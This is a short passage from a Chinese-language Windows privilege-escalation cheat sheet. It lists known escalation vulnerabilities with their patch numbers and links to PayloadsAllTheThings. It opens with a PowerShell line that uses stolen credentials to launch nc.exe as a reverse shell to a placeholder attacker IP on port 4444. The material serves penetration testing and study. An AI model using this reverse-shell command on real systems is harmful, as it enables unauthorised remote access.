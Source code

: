 ```
$ computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

#### EoP - Common Vulnerabilities and Exposure

通用漏洞

|名称|类型|适用环境|描述|
|:-------------:|--|--|-----|
|Token Impersonation (RottenPotato)|/|/|/|
|MS08-067 (NetAPI)|系统漏洞|Windows 2000/XP/Server 2003/Vista/Server 2008)|Remote Code Execution|
|MS16-032|系统漏洞|windows 7/8/10/2008/2012|Secondary Logon Handle. 补丁编号: KB3143141|
|MS17-010 (Eternal Blue)|系统漏洞|/|Windows Kernel Mode Drivers|windows 7/2008/2003/XP|补丁编号: KB4013389|
|CVE-2018-8120|Kernel Exploitation|(Windows 7 SP1/2008 SP2,2008 R2 SP1)x86 x64|[Win32k Elevation of Privilege Vulnerability]|
|[Win10Pcap-Exploit](https://github.com/Rootkitsmm/Win10Pcap-Exploit)|应用程序漏洞|win10|Exploit Win10Pcap Driver to enable some Privilege in our process token ( local Privilege escalation)|


检查补丁是否安装 `wmic qfe list | findstr "3139914"`


详细参考 [PayloadsAllTheThings/Windows - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#token-impersonation-rottenpotato)

